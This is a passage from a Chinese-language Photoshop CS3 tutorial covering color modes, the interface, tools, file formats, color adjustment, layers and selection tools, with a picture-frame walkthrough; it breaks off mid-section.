小知识：色调、亮度、饱和度是色彩的三要素。色相是各种颜色的具体色彩面貌，是颜色最明显的特征，红橙黄绿青蓝紫，这就是我们在日常生活中给色调所定义的名称，就如每个人都有个名字。亮度是颜色的明暗深浅程度，当亮度很高时，颜色是白色，当亮度很低时，则接近黑色，一般在表现喜悦欢快、活泼明朗的主题时，色彩亮度宜大，而表现严肃紧张、忧郁沉重的主题时，色彩的亮度宜小。饱和度是颜色纯净程度，鲜艳程度，当饱和度下降时，颜色逐渐变灰暗。

在下面的操作中，需要大量使用相关模式以及相互之间的转换。因此，现在针对不同的颜色模式进行简单介绍。

- ① RGB 模式
这是一种加色模式，由红、绿、蓝 3 种色光相叠加形成。
- ② CMYK 模式
这是彩色印刷时使用的一种颜色模式，CMYK 代表了印刷上的 4 种油墨色，即 Cyan（青）、Magenta（洋红）、Yellow（黄）和 Black（黑）4 种色彩。在 Photoshop 的 CMYK 模式中，为每种印刷油墨指定了一个百分比值，一般为最亮（高光）颜色指定的印刷油墨颜色百分比较低，而为较暗（暗调）颜色指定的百分比比较高。
- ③ Lab 模式
这是一种国际标准色彩模式，在 Photoshop 中，Lab 颜色模式有一个介于 0 ~ 100 之间的明度分量（L），a 分量从绿色到红色轴，b 分量从蓝色到黄色轴，在“颜色”面板中，a 分量和 b 分量的范围为 -120 ~ +120。
- ④ 位图模式
这种模式只使用黑色或白色之一来表示图像中的像素，它通过组合不同大小的点来产生一定的灰度级阴影。
- ⑤ 灰度模式
使用多达256级灰度，灰度图像中的每个像素都有一个0（黑色）~255（白色）之间的亮度值。当将一个彩色文件转换为灰度模式时，所有颜色信息都将从文件中丢失，只留下亮度。
- ⑥ 索引颜色模式
该模式下只能存储一个8位色彩深度的文件，且这些颜色都是预先定义好的。当转换为索引颜色时，Photoshop 将构建一个颜色查找表，用以存放并索引图像中的颜色，如果原图像中的某种颜色没有出现在该表中，则程序将选取现有颜色中最接近的一种，或使用现有颜色模拟该颜色。
- ⑦ 双色调模式
采用两种彩色油墨来创建由双色调、三色调和四色调混合色阶来组成的灰度图像。
- ⑧ 多通道模式
包含多种灰阶通道，每一通道均由256级灰阶组成，该模式对特殊打印需求的图像非常有用。

尽管上述介绍比较枯燥，但是，这些模式是 Photoshop CS3 色彩处理的核心部分，掌握了相关的概念，就可以在图像处理中游刃有余了。如果需要进行图像色彩模式的转换，只需在“图像”→“模式”菜单下选择相应的色彩模式命令即可。

## 2. 焕然一新：体验 Photoshop CS3 界面

### （1）标题栏
标题栏位于界面的最上方，左侧显示的是软件图标和名称，右侧按钮用于控制界面的显示大小和关闭文件。当工作区中的图像窗口显示为最大化状态时，标题栏中还将显示当前编辑文档的名称。

### （2）菜单栏
菜单栏位于标题栏的下方，包含了各类图像处理命令，分别是：“文件”、“编辑”、“图像”、“图层”、“选择”、“滤镜”、“视图”、“窗口”和“帮助”等，每个菜单下又有若干个子菜单，选择任意子菜单可以执行相应的命令。除了可以用鼠标来选择外，菜单栏中的命令还可以使用快捷键来选择。菜单栏中还有一部分显示为灰色，此部分命令只有在满足一定的条件之后方可执行。下面，分别介绍相关菜单的功能。

- 1. “文件”菜单：用于打开、新建、关闭、存储、导入、导出和打印文件。
- 2. “编辑”菜单：用于对图像进行撤销、剪切、复制、粘贴、清除以及定义画笔等编辑操作，并可进行一些优化设置。
- 3. “图像”菜单：用于调整图像的色彩模式、图像的色彩和色调、图像和画布尺寸以及旋转画布等。
- 4. “图层”菜单：用于对图层进行控制和编辑，包括新建图层、复制图层、删除图层、栅格化图层、添加图层样式、添加图层蒙版、链接和合并图层等。
- 5. “选择”菜单：用于创建图像选择区域和对选区进行羽化、存储和变换等编辑。
- 6. “滤镜”菜单：用于添加杂色、扭曲、模糊、渲染、纹理和艺术效果等滤镜效果。
- 7. “视图”菜单：用于控制图像显示的比例以及显示或隐藏标尺和网格等。
- 8. “窗口”菜单：用于对工作界面进行调整，包括隐藏和显示图层面板等。
- 9. “帮助”菜单：用于提供使用 Photoshop CS3 的帮助信息。

### （3）属性栏
属性栏位于菜单栏的下方，显示工具箱中当前所选择按钮的参数和选项设置。在工具箱中选择不同的按钮，菜单栏下方的工具属性栏就显示出当前工具的相应属性和参数，以方便用户对这些参数进行设置。

### （4）工具箱
工具箱默认的位置位于工作界面的左侧，包含了 Photoshop 中的各种图形绘制和图像处理工具，如对图像进行选择、移动、绘制、编辑和查看的工具，在图像中输入文字的工具，更改前景色和背景色的工具等。

需使用工具箱中的某个工具时，必须先选取该工具，方法是用鼠标单击工具箱中要选取工具的图标。如果是需选取某一工具组中的某个工具，可单击该组工具图标右下角的小黑箭头，然后在弹出的子工具条中选择所需的工具。每个工具箱及隐藏的工具按钮如图7所示。


### （5）选项面板
选项面板是 Photoshop CS3 工作界面的重要组成部分，通过它们可以实现图像处理的主要操作。

选项面板的默认位置位于界面的右侧，每个面板窗口包含了若干个面板，可以将其称为一个面板组。面板可以完成各种图像处理操作和工具的参数设定，如颜色、图像编辑、移动图像、显示信息等操作。

在 Photoshop CS3 中，选项面板的灵活性得到了极大的提高。除了可以自由组合，还可以自由缩放以节省图片编辑空间。我们可以根据需要决定显示或隐藏这些面板，也可以将它放于屏幕的任何位置，拖拉面板的标题栏就可以改变面板的位置。单击右边底板上方的黑灰色区域，可对面板进行自由缩放。缩放前后的图片如图 8 所示。



### （6）图像编辑区和文件状态栏
Photoshop CS3 中，图像编辑区编辑范围明显加大，编辑区域组合显得更加灵活。这里显示相关图像文件的内容，是对图像进行浏览和编辑操作的主要场所。

在图像标题栏上单击鼠标右键，在弹出的快捷菜单中选择相应的命令，就可以对图像大小和画布大小进行调整，并能进行页面设置等操作。

状态栏和图像文件巧妙的结合在一起，位于文档界面的最下方，用于显示当前图像的状态及操作命令的相关提示信息。单击状态栏上的三角形，选择其中的“View”（查看）即可看到它的相关内容，包括：文档大小、文档配置文件、暂存盘大小、效率、计时、当前工具等。

另外，如果需要对整个界面进行保存，可以单击“窗口” → “工作区” → “保存工作区”，就能够将当前的工作区直接保存下来。

## 3. Photoshop CS3 的常用工具

为了便于了解 Photoshop CS3 的常用工具，下面分别从选区工具、绘图工具、图像编辑和辅助工具等角度进行分门别类的讲解。

### （1）Photoshop CS3 的选区工具
在 Photoshop 中，几乎所有的操作都是基于选区完成的，因此，快速而准确地选取图像范围就十分关键了。新版本的 Photoshop CS3 在选区功能上进一步完善，常用的选区工具如图 9 所示。



按照从上到下的顺序，下面对常用的选区工具及其作用介绍如下，见表 1：

**表 1 Photoshop CS3 常用选区工具及其作用**

| 工具 | 作用 |
| --- | --- |
| 移动工具 | 用于移动选取的图像。 |
| 选框工具组 | 包括矩形选框工具、椭圆选框工具、单行选框工具、单列选框工具等，分别用于创建矩形、椭圆形、单行和单列选区。 |
| 魔棒工具和快速选择工具 | 魔棒工具可以选择图像中相邻像素中颜色相近的区域，选择的颜色范围由选项栏中的容差值决定。新增的快速选择工具是基于画笔模式的，只需要对快速选择工具设置基本参数，用户可以“画”出所需的选区。 |
| 套索工具组 | 分为套索工具、多边形套索工具、磁性套索工具等。自由套索工具会根据用户鼠标移动的轨迹形成封闭的浮动选区。多边形套索工具主要创建由直线连成的选区。磁性套索工具可自动捕捉物体的边缘以形成选区。 |
| 裁切工具 | 用于裁切掉图像中不需要的图像区域。 |
| 切片工具组 | 用于创建和选取切片，把图片切成一块一块，在网页上显示时以小单位的形式显示，从而加快网页打开的速度。 |

### （2）Photoshop CS3 的绘图工具
通过绘图工具，可以制作出一些精美的图形。主要包括：修复工具组、画笔工具和铅笔工具、图章工具组、历史记录画笔工具组、橡皮擦工具组、渐变工具和油漆桶工具、模糊、锐化和涂抹工具、减淡加深和海绵工具等，如图 10 所示。



为了便于用户了解相关工具的作用，下面，按照由上到下的顺序对其功能进行说明，见表 2。

**表 2 Photoshop CS3 常用绘图工具及其作用**

| 工具 | 作用 |
|------|------|
| 修复工具组 | 修复和修补工具用于修复图像的污点、模糊、变形、划痕、红眼等缺陷，并能使修复的部分尽量自然地融入到周围的图像中。 |
| 画笔工具和铅笔工具 | 画笔绘制的线条较柔和，可以绘出边缘柔软的画笔效果，画笔的颜色为工具箱中的前景色。铅笔工具只能绘出硬边的线条。如果是斜线，会有明显的锯齿。绘制的线条颜色为工具箱中的前景色。 |
| 图章工具组 | 包括仿制图章工具、图案图章工具。分别使所选区域内的图像或选择图案用于替代掉（复制）被涂抹的区域。仿制图章工具可准确复制图像的一部分或者全部，图案图章工具可将各种图案填充到图像中。 |
| 历史记录画笔工具组 | 分别通过历史记录恢复图像，艺术画笔会产生艺术笔触效果 |
| 橡皮擦工具组 | 使用橡皮擦工具可将图像擦除至工具箱中的背景色，并可将图像还原到历史记录调板中图像的任何一个状态。包括：背景橡皮擦工具、魔术橡皮擦工具等。 |
| 渐变工具和油漆桶工具 | 渐变工具用于进行线性、菱形和径向等渐变填充，可以绘制出十分绚烂的图像效果。要应用渐变效果，只需要用渐变工具在图像上单击并拖动，根据选项栏中设置的不同，会得到不同的效果。油漆桶工具用于纯色和图案填充。填充的颜色为前景色或连续图案，油漆桶工具不能作用于位图模式的图像。 |
| 模糊、锐化和涂抹工具 | 分别用于对所涂抹过的图像进行模糊、锐化和涂抹处理。 |
| 减淡、加深和海绵工具 | 分别用于对所涂抹过的图像进行减淡、加深和海绵处理。 |

### （3）Photoshop CS3 的图像编辑和辅助工具
为了方便用户进行个性化的操作，Photoshop 还提供了许多个性化的图像编辑和辅助工具。包括：钢笔工具组、文字工具组、路径选择工具组、形状工具组、注释工具、吸管和度量工具、抓手工具、放大工具等，如图 11 所示。



**表 3 Photoshop CS3 常用图像编辑工具及其作用**

| 工具 | 作用 |
|------|------|
| 钢笔工具组 | 用于绘制和编辑路径。 |
| 文字工具组 | 使用文字工具可以创建各种文字选区，可以十分方便地制作各种文字效果。如输入横排和直排文字选区。 |
| 路径选择工具组 | 分别用于选择绘制的路径或路径上的部分锚点。 |
| 形状工具组 | 用于绘制矩形、多边形和自定义等各种形状图形。 |
| 注释工具 | 分别用于添加文字和语音注释。 |
| 吸管和度量工具 | 分别用于吸取图像颜色、添加颜色取样点和测量图像间的距离。 |
| 抓手工具 | 放大图像显示后使用该工具可以移动图像在窗口中的显示区域。 |
| 放大工具 | 在图像窗口中依次单击，可以放大图像的显示。 |

## 4. Photoshop CS3 的文件格式

在处理图像文件的过程中，格式问题首当其冲。如果不能处理好格式问题，许多编辑过程中的图片信息可能会因此而丢失。因此，用户学习 Photoshop CS3 的第一个问题是如何选择格式。Photoshop CS 支持 20 多种文件格式，除了 Photoshop 专用文件格式外，还包括 JPG、PSD、TIF 和 BMP 等常用文件格式。不同的文件格式可以用扩展名来区分，这些扩展名在文件以相应格式存储时加到文件名中。

### （1）PSD 格式和 PDD 格式
PSD 格式和 PDD 格式是 Photoshop 软件自身的专用格式，是惟一能支持全部图像色彩模式的格式。以 PSD 和 PDD 格式存储图像时，可以保存图像中的图层、通道和蒙版等数据信息，所以，在进行图像处理的过程中都以该格式进行保存，但以这两种图像文件格式存储的图像文件特别大，要比其他格式的图像文件占用更多的磁盘空间。

### （2）JPEG 格式（*.JPEG、*.JPG）
JPEG 图像文件格式既是一种文件格式，又是一种压缩技术，它是一种特殊的压缩类型。如果图像文件只用于预览、欣赏或作为素材，或为了方便携带存储在移动盘上，可将其保存为 JPEG 格式。使用 JPEG 格式保存的图像经过高倍率的压缩可使图像文件变得较小，占用磁盘空间较少，但会丢失掉部分不易察觉的数据，所以在印刷时不宜使用此格式。

### （3）GIF 格式
GIF 图像文件格式是在 Internet 网络及其他联机服务上常用的一种文件格式，其目的在于最小化文件和电子传输时间。GIF 格式文件同时支持线图、灰度和索引图像。它用于显示超文本标记语言（HTML）文档中的索引颜色图形和图像，在网络图片和动画图像中比较常见。

### （4）BMP 格式
BMP 图像文件格式是 DOS 和 Windows 兼容计算机上的标准 Windows 图像格式，支持 RGB、索引颜色、灰度和位图颜色模式，常用于视频输出和演示，存储时可进行无损压缩。

### （5）TIFF 格式（*.TIF、*.TIFF）
TIFF 图像文件格式一种灵活的位图图像格式，受几乎所有的绘画、图像编辑和页面排版应用程序的支持。该格式除了支持 RGB、CMYK、Lab、位图和灰度等多种色彩模式外，还支持 Alpha 通道的使用，在 TIFF 文件中可以存储图层，但如果在另一个应用程序中打开该文件，则只有拼合图像是可见的。值得一提的是，该方式是一种无损压缩，通过 WinRAR 或 WinZip 等软件压缩后，占用空间非常小，使用十分灵活方便。

### （6）PNG 格式
便携网络图形（PNG）格式是作为 GIF 的无专利替代品开发的，用于无损压缩和显示 Web 上的图像。与 GIF 不同，PNG 支持 24 位图像并产生无锯齿状边缘的背景透明度，但有一些较早期版本的 Web 浏览器不支持 PNG 图像。

# 三、循序渐进篇: Photoshop CS3的常用操作

在 Photoshop CS3 中，有许多实用的功能菜单和面板，而图层、颜色调整、路径、通道和蒙版则是其中非常重要的部分。下面，结合典型实例，分别讲解这些功能。

## 1. Photoshop CS3图像颜色和模式调整
在平面设计中，调整图像颜色应该是一个最基本的操作了。打开或新建一张图片文件，单击“图像”→“调整”菜单，就可以看到各种色彩调整选项。在相应的选项后面，还列出了快捷键方式，如图 12 所示。

在实际操作中，通过 Photoshop 调整颜色时，通常要用到以下术语：色阶、自动对比度、自动色彩、曲线、色彩平衡、亮度 / 对比度、黑白转换、色相 / 饱和度、去色、替换颜色、可选颜色、通道混合器、渐变映射、照片滤镜、阴影 / 高光、色调均化、阈值、色调分离、变化。

换颜色、可选颜色、通道混合器、渐变映射、照片滤镜、阴影/高光、曝光度、反相、色调均化、阈值、色调分离、变化等。这些选项决定了一幅图像的画面质量，分别改变它们的参数，可以明显改变画面效果。

> 小知识：阈值命令可以根据图像的亮度值将彩色或灰阶的图像变成高对比度的黑白图，它对确定图像的最亮和最暗区域很有用。

下面选择其中的常用方法，并结合实例进行讲解。

### (1) 色阶和自动色阶

通过“色阶”选项可以调节图像的色调对比度和明暗度。其中，明暗度又分为暗调、中间和高亮三部分。

按“Ctrl+L”快捷键，打开“色阶”对话框，在这里既能对合成的通道进行处理，也可选择个别颜色通道进行调整。使用“输入色阶”可以改变图像的色调对比度，它由暗调部分、中间部分、高亮部分组成，滑块越向右移动图像越暗，反之则越亮。使用“输出色阶”则可以调节图像的明暗度，使图像整体变亮或变暗。右下角的三个吸管工具可以用于选择特定的色调，分别是黑色吸管、灰色吸管、白色吸管，如图13所示。



单击“自动”按钮，可以进行自动色阶调整，它可自动将每个通道中最亮的像素定义为白色，最暗的像素定义为黑色，然后按比例分配其间的像素值，一般来说，自动色阶命令适用于简单的灰度图和像素值比较平均的图像。



### (2) 曲线调节

在各种调节工具中，曲线的功能应该是最细致的。单击“图像”→“调整”菜单，打开“曲线”命令，在这里可调整灰阶曲线中的任何一点。

对话框打开时，曲线是一条直的对角线。图表的水平轴表示像素输入色阶或原来的强度值；垂直轴表示新的颜色值或输出色阶。它将图像的色调分成四部分，可以让用户在阴影色和中间色之间（四分之三）以及中间色和高亮度（四分之一）之间精确地调整色调。

如果将曲线右上角的端点向左移动，可以增加图像亮部的对比度，并使图像变亮；而如果将曲线左下角的端点向右移动，则会增加图像暗部的对比度，使图像变暗，如图14所示。



### (3) 色彩平衡

色彩平衡命令能在彩色图像中改变颜色的混合。单击“图像”→“调整”菜单，打开“色彩平衡”对话框，可以改变图像中颜色的组成。它常常使用作调整图层，使后面的修改变得更容易。

选择“暗调”、“中间调”、“高光”、“保持亮度”和“预览”等选项。拖动三角形的滑块，调整图像的色彩平衡，直到满意为止，如图15所示。



### (4) 调整“亮度/对比度”和“色相/饱和度”

调整“亮度/对比度”是调整图像色调范围最简便的方法，可一次调整图像中的所有像素的高光、暗调和中间调，可以使因曝光不足而模糊的照片变得清晰，也可以改善曝光过强照片的画面质量。

使用时，打开要调整亮度、对比度的图像。选择“图像”→“调整”→“亮度/对比度”菜单命令。在“亮度/对比度”对话框中，分别拖动改变亮度和改变对比度的三角形滑块，直到亮度和对比度都满意为止。

通过适当地调整图像的色相、饱和度和明度值可以改善扫描的图片丢失颜色信息的现象，修改色偏、曝光不足或过度的照片，并可以灵活地转换彩色图像为灰度图或将灰度图着色为彩色图像等等。

选择“图像”→“调整”→“色相/饱和度”命令。弹出“色相/饱和度”对话框。在编辑栏中选择要调整的颜色，如红色、绿色、蓝色、青色、洋红以及黄色或选择“全图”来调整所有颜色。分别拖动调整“色相”、“饱和度”和“明度”的三角形滑块，直到满意为止。如图16所示。



### (5) 颜色模式的转换

除了进行色彩调整，使用 Photoshop CS3 处理图像时，经常需要在不同的颜色模式之间转换，例如：为了使用所有的滤镜对图像进行处理，就要将颜色模式转换为 RGB 颜色模式，而如果图像最终要用于打印输出，那么可能又要将处理完的图像转换为 CMYK 模式。

在图像模式中，将图像从一种模式转换为另一种模式会永久性地改变图像中的颜色值，再次将颜色模式转换回原来的模式并不能恢复图像的原始形态。

例如，将RGB图像转换为CMYK模式时，CMYK色域之外的RGB颜色值会被调整到CMYK色域之内。将彩色模式转换为灰度或黑白颜色模式时会丢失所有的颜色信息。另外，也并非所有的颜色模式之间都能自由转换，例如：如果要将图像转换为位图模式，必须首先将其转换为灰度模式。

转换颜色模式时，单击“图像”→“模式”菜单，在弹出的选项中选择合适的模式即可，如图17所示。



### (6) 巧用新功能：将彩色照片变为黑白照片

以前，人们需要制作黑白照片时，一般使用“去色”方法，或者调整饱和度、使用Lab模式、通道混合器、使用渐变映射、拷贝单一通道等，操作起来显得比较麻烦。

在Photoshop CS3中，新增了将彩色照片变为黑白照片的黑白转换功能，它可以改变六种不同颜色（红、黄、绿、青、蓝、洋红）的亮度值，从而制作出高质量的黑白照片。下面通过一个简短的实例来向大家介绍如何使用黑白转换控制。

- ①打开文件并预览转换效果

在Photoshop CS3中，打开一幅彩色照片。建议在RGB模式下操作。选择菜单命令“图像”→“调整”→“Black & White”，或者直接按快捷键Alt+Shift+Ctrl+B。这时在“Black and White”对话框中，我们就可以看到这6种颜色了。默认情况下“预览”复选框处于选中状态，这样可以在调整颜色值的同时查看图像的实时变化，如图18所示。



- ②参数调整

现在，设置相关数值，这时在“Preset”（预设）右侧就会出现“Custom”（自定义）字样，也可以直接单击“Preset”（预设）右侧箭头，从下拉列表中选择预设好的颜色值设置。

- ③保存参数

还可以将自己调好的数值保存起来，以备日后再次使用。方法是在调好6组颜色数值后，单击“Preset”（预设）右方箭头右侧小按钮，在菜单中，单击“Save Preset...”（保存预设）命令，然后设置相应的文件夹即可。

此外，Photoshop CS3还提供了许多其他的色彩调节功能。如执行“图像”→“调整”→“曝光度”命令，可以模拟传统摄影中各种曝光程度的不同效果，这个命令既可以用于修补各种曝光不足或曝光过度的相片，也可以用于制作一些特效。

## 2. Photoshop CS3的图层操作

作为一个图像处理软件，Photoshop CS3将选择的对象当作一个个独立的实体，即“层”。用户可以对层进行单独处理，而不会对原始图像有任何影响，层中的无图像部分是透明的。对于层的形容，好像将一张玻璃板盖在一幅画上，然后在玻璃板上作图，不满意的话，可以随时在玻璃板上修改，而不影响其下的画。

在Photoshop CS3中，图层分为普通层、背景层、文字层、调整层、效果层、蒙版图层等。在图层面板上，可以进行图层的顺序调换、图层的效果处理、图层的新建和删除等一系列操作。通过更改图层的顺序和属性，可以改变图像的合成。图层面板如图19所示。



### (1) 对图层的基本操作

- ①新建和删除图层

在“图层”调板上选择一个图层。单击“图层”调板上的“新建图层”按钮，即可在选择图层上插入一个新图层。如果需要删除图层，首先选择该图层，用鼠标单击“图层”面板右下角的“删除图层”按钮即可。

- ②锁定图层

打开图像文件，选择需要锁定的图层。在图层面板上方，单击“锁定”二字后面的四个按钮，分别是：锁定透明像素、锁定图像像素、锁定位置和全部锁定。选择最合适的一个选项，就可以实现对图层的锁定。

- ③图层链接

当希望对多个图层同时进行移动、删除、变换等操作时，可采用图层链接的方法。链接图层是将多个图层临时组合在一起。按住Ctrl键，选择要链接的两个图层，单击右键，选择“链接图层”选项，或者直接单击面板菜单中的链接图层按钮，在两个图层上即可出现链接标志。

- ④图层组操作

图层组就是将多个层归为一个组，这个组可以在不需要操作时折叠起来，无论组中有多少图层，折叠后只占用相当于一个图层的空间。在Photoshop中最多可存在5级图层组。对这个组进行操作就是对组中所有层进行操作。建立新图层组可通过执行“图层”→“新建组”命令。也可以单击面板下方的“新建组”按钮。

- ⑤合并图层

合并图层是把几个图层的内容压缩到一个图层。在只选择单个图层的情况下，按快捷键Ctrl+E将与位于其下方的图层合并，合并后的图层名和颜色标志继承自原先下方的图层。在选择了多个图层的情况下，按快捷键Ctrl+E将所有选择的图层合并为一层，合并后的图层名继承自原先位于最上方的图层。



- ⑥图层的混合模式

用 Photoshop CS3 进行图像处理时，无论是用画笔、喷枪、铅笔、直线等绘画工具添加图像，还是用填充、油漆桶、渐变填充、历史刷等编辑工具编辑图像，或是在设置图层属性的时候，都有一个选项就是要设置图像混合模式。图像混合模式是将当前选定的图层与其下一张图层进行混合，从而产生另外一种新的图像混合效果。当两张图层叠放在一起的时候，默认的图像混合模式是“正常”，同时 Photoshop CS3 还提供了多种不同的图像混合模式，不同的图像混合模式会产生不同的效果。包括：正常、溶解、变暗、正片叠底、颜色加深、线性加深、变亮、滤色、颜色减淡、线性减淡、叠加、柔光、强光、亮光、线形光、点光、实色叠印、差值、排除、色相、饱和度、颜色、亮度等。



### (2) 图层的样式操作

Photoshop CS3 的图层样式包括投影、内阴影、外发光、内发光、斜面和浮雕、光泽、颜色叠加、渐变叠加、图案叠加、描边等。可以直接单击图层面板上的“图层样式”按钮，也可以单击“图层” → “图层样式”菜单，进行样式操作，默认为“混合选项”，如图20所示。

灵活运用这些样式，可以在设计中产生千变万化的效果，具体分析如下。

- ①投影效果：投影效果可以在图层内容背后添加阴影，模拟投影效果，使平面图像生成立体的效果。在投影图层样式对话框中，我们可以进行混合选项的设定，包括混合模式、不透明度、品质等等。

- ②内阴影效果：内阴影效果可以在图层内部边缘产生阴影，使图像如同裁剪过一样，在内阴影图层样式对话框中，也可以设置混合模式、不透明度、混合颜色等。

- ③外发光：可以在图层外面边缘产生光晕，在样式对话框中，除了设置混合模式、不透明度以外，还有光源衰减模式等。

- ④内发光：内发光效果可以在当前图层内部产生光晕，与外发光相似。

- ⑤斜面与浮雕：斜面与浮雕效果可以在图层上直接制作出各种各样的浮雕效果，使图像更具有立体感。除了可以进行混合选项的设定以外，还可以分别对等高线图素和纹理图案进行选定。

- ⑥光泽：光泽效果可以在图层表面上添加单一的色彩，使图像产生类似绸缎的平滑效果。

- ⑦颜色叠加：颜色叠加效果也可以在图层添加单一的色彩。颜色叠加图层样式对话框如图21所示，在这里我们可以进行混合模式和不透明度的设置。

- ⑧渐变叠加：渐变叠加效果可以在图层上面添加渐变颜色。

- ⑨图案叠加：图案叠加效果可以在图层上面添加图案填充效果。

- ⑩描边：描边效果可以在图层外边缘添加边框。包括进行描边结构的大小和位置、混合模式、描边颜色等等设置。

### (3) 利用图层制作相框

为了让用户充分掌握图层的操作技巧，下面讲解一个制作相框的方法。

- ①新建文件 单击“文件”→“新建”命令，图像大小为640×480像素，RGB模式，背景为白色，文件名为“Cfan”。任选一图像文件打开，执行“选择”→“全选”，选中图像，单击“编辑”→“复制”命令，将图像复制到剪切板。

- ②拷贝并粘贴图片文件 激活新建的名为“Cfan”的文件，单击“编辑”→“粘贴”命令，这时图层面板上就增加了图层1。单击“编辑”→“自由变换”命令，在对角线方向拖动控制点，将图层1的大小调整合适。

- ③图片扩边 按下Ctrl键的同时，单击图层1，将图层1选中。单击“选择”→“修改”→“扩边”命令，宽度选23像素，选择颜色面板中一种颜色填充，如图22所示。



- ④制作相框纹理效果 单击“滤镜”→“纹理”→“颗粒”，参数为默认，给相框加一些纹理效果。

- ⑤设置相框浮雕样式 单击“图层”→“图层样式”→“斜面浮雕”，弹出图层样式对话框，设置“斜面浮雕”效果后按“确定”，参数选择默认。然后按下Ctrl+D键取消选区。

- ⑥添加阴影图层并变换相框

按下Ctrl键的同时，单击并选中图层1。单击图层面板下的“新建图层”按钮，创建一图层2，并命名为“阴影层”，单击“编辑”→“填充”按钮，选择“50%灰色”对其进行填充。单击“图层”→“排列”→“后移一层”，将图层2（阴影层）移到图层1（画框层）的下面。然后将图层1和图层2链接，单击“编辑”→“变换”→“斜切”，调整相框放置的角度。图层面板如图23所示。



- ⑦制作阴影层效果

取消图层之间的链接，选中图层2（阴影层），单击“编辑”→“自由变换”，将阴影压缩到合适的位置。再执行“滤镜”→“模糊”→“高斯模糊”，半径取7.0。使阴影的效果更加逼真。

- ⑧制作背景

选中背景层，填充渐变色，单击“滤镜”→“纹理”→“纹理化”→“砂岩”，完成后的效果如图24所示。



## 3. Photoshop CS3的选区编辑

快速而精确地选取图像范围是提高工作效率和保证图像处理质量的关键。在Photoshop中，很多操作都是基于选区进行的，因此，熟练掌握各种选取方法非常重要。新版的Photoshop CS3在选区编辑功能上进一步加强，除了在已有选择功能上继续加强外，还提供了快速选择工具。

### (1) 常用的选择工具及其应用

Photoshop中基本的选区工具有：矩形选框工具、椭圆选框工具、单行选框工具、单列选框工具、套索工具、多边形套索工具、磁性套索工具、快速选择工具、魔棒工具等，简单介绍如下：

- ①规则选框工具
矩形选框工具、椭圆选框工具、单行选框工具以及单列选框工具都属于规则选框工具，它们只能创建规则形状的选区。虽然这些规则选框工具使用的时候觉得非常简单，但是它们的功能却十分的强大，可以执行许多复杂的任务。

- ②魔棒工具
魔棒工具可以选择图像中相邻像素中颜色相近的区域，选择的颜色范围由选项栏中的容差值决定。在需要选择大片纯色或接近纯色的区域时，魔棒工具十分有用，常常用于改变某个区域的颜色或者删除、更换简单的背景。

- ③快速选择工具
Photoshop CS3新增的“快速选择工具”功能非常强大，给用户提供了难以置信的优质选区创建解决方案。它与以前版本中的魔棒工具功能类似，但使用方法更加灵活，可以边拖动边选择，例如要选择图像上方的一个区域，可以只在上方区域拖动，这样的操作不会对下方图像产生影响。

- ④自由套索工具
自由套索工具会根据用户鼠标移动的轨迹形成封闭的浮动选区。但自由套索工具可以创建任意的选区，在所需图像与背景色没有明显差别时，自由套索工具仍然可以胜任。需要注意的是，一定要在开始的地方精确地结束选区，以创建出封闭的选区。

- ⑤多边形套索工具
多边形套索工具可以很方便地创建主要由直线连成的选区，如五角星等。只要在图像中适当的位置单击，Photoshop就会将这些单击点连接起来，最后在选区开始的地方单击，则会结束选区，也可以在任意地方双击，Photoshop会在双击点到开始点之间创建一条直线以封闭选区。

- ⑥磁性套索工具
磁性套索工具是一种很强大的选区工具，可以在拖动鼠标的过程中自动捕捉物体的边缘以形成选区。对于图像中边缘不明显的物体，可以设定较小的套索宽度和边缘对比度，检测的物体边缘会比较准确。

### (2) 针对选区的基本操作

用户对选区的编辑操作很多，包括移动、复制、修改、保存、载入等。其中，比较常用的修改包括对创建好的选区进行增加、缩小、取消、羽化等。使用选取工具时，如果一次不能将全部所需内容选定到选区内，可以分几步选取。一般情况下，我们会使用以下的选择方法。

- ①增加选区
在图像上选定第一个选区，按住“Shift”键不放，用鼠标选定第二个选区，这样可以在图像上选择两个选区。如果选区重叠，那么原来的选区加上和第二个选区不重叠的部分组成一个新的选区，形成选区相加的效果。

- ②减小选区
在图像上选定第一个选区。先按住“Alt”键不放，用鼠标制作第二个选区，第一个选区减去和第二个选区重叠的部分而成为一个新的选区。

- ③取消选区
选区内的操作完成后，要将选区取消，否则会影响对图像的其他操作。选择“矩形”或“椭圆”选框工具，将鼠标移动到图像上单击，即可以取消选区。也可以选择“选择”→“取消选择”菜单命令直接取消选区。

- ④选区的羽化
羽化是指选取图像的边缘部分产生模糊的效果。在进行图像编辑时，使图像与背景渐进混合在一起，过渡自然而避免产生生硬的效果。打开要编辑的图像，创建一个选区。选择“选择”→“羽化”菜单命令，在弹出的对话框中，在“羽化半径”选项中输入1~250像素值。也可以在制作选区之前，直接更改羽化值，然后直接在图像上进行操作。



上述操作效果如图25所示。

### (3) 使用“魔棒”工具操作选择特定区域

除了上面的基本选区操作，用户有时需要选择大片纯色或接近纯色的区域，如红色的花朵、蓝色的海水，它们的形状一般是不规则的，这就需要用到魔棒工具了。魔棒工具可以选择图像中相邻像素中颜色相近的区域，选择的颜色范围由选项栏中的容差值决定。它的数值范围为0~255，数值越大，表示可允许的相邻像素间的相似程度越小，选择的范围越大；反之则越小。它可将图像中颜色相同或相近的部分设置到一个选区中。双击工具箱中的“魔棒”工具，在弹出的面板中，设置“容差”和“消除锯齿”等选项。如果一次不能将要选择的区域全部选中，可以再按住“Shift”键直到所有要选的部分全部包括在选区中为止。图26是一个经过魔棒选择处理后的荷花。



> 小知识：在“魔棒”工具选项面板中可以设置容差，容差越大，选择的颜色范围越大。当容差为0时，选择图像中的单个像素及该像素周围与它颜色完全相同的若干像素。当容差值为255时，将选取整个图像。

### (4) Photoshop CS3新功能：使用快速选择工具

在使用Photoshop进行图像处理时，我们经常会遇到选区创建的问题，比如将图像的一部分从其背景中移除，或者修整某一特定部分的边缘等。现在，利用快速选择工具可以轻松解决这一问题。这一工具被添加在工具箱的上方区域，与魔棒工具归为一组而且被显示在工具箱面板中显眼的位置。

> 小知识：该工具的使用方法是基于画笔模式的，用户可以“画”出所需的选区。如果是选取离边缘比较远的较大区域，就要使用大一些的画笔；如果是要选取边缘则换成小尺寸的画笔，这样才能尽量避免选取背景像素。

下面，通过一个实例来讲解其功能。

- ①打开图像

在Photoshop CS3中，选择打开一幅图像，本例选择了一幅海滩的图片。由于快速选择工具是智能的，选择几个参考点后，它能够自动调整涂画的选区大小，并寻找到边缘使其与选区分离开。选择之前，可以调整画笔的大小，如图27所示。



> 小知识：如果不想选中某些区域，只需要将画笔大小调小一些，然后按住Alt键再用快速选择工具去“画”一下这些区域就可以了。

- ②修改选区

